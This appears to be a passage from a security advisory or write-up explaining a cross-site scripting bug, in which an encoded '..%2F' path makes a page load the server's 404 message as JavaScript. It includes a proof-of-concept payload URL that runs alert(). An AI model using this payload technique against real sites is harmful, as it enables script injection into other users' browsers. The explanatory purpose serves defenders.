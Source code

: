 File: `static/index.html`

```html
<html>
	<head>
		<title>Home</title>
	</head>
	</body>
		<h3>Home</h3>
		<script src="index.js"></script>
	</body>
</html>
```

If you visit `/example/..%2Findex.html`, your browser will load the JS script `index.js` at `/example/index.js`.

Similarly, if you visit `/1+alert();var[Page]=1//..%2Findex.html`, the browser will load the JS script at `/1+alert();var[Page]=1//index.js`. Consequently, the content of the script `index.js` will be:

```js
Page /1+alert();var[Page]=1//index.js not found
```

An alert will be then executed.